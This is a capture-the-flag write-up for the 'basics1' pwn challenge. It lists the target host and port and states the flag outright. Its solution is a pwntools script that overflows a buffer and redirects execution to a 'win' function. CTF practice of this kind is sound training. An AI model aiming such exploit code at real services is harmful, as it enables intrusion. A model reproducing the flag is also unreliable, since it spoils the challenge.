 ![](../assets/images/n00bzCTF_logo.png)



        
            
# basics1



## Challenge Author(s):
NoobMaster

## Description:
Welcome, hope you enjoy pwning!

## Target:

challs.n00bzunit3d.xyz 32190


## Difficulty/Points: 
500

## Flag:
`n00bz{b4s1c_r3t_t0_w1n_f0r_7he_w1n!}`
# 


# Challenge
Welcome, hope you enjoy pwning!

# Solution
<code>

    from pwn import*

    r = remote("challs.n00bzunit3d.xyz", 32190)

    e = ELF('./chall')

    cyclic = 152
    r.recvline()
    win = e.symbols['win']
    payload = b'A'*cyclic + p64(win)
    print(payload)
    r.sendline(payload)
    r.interactive()
    
</code>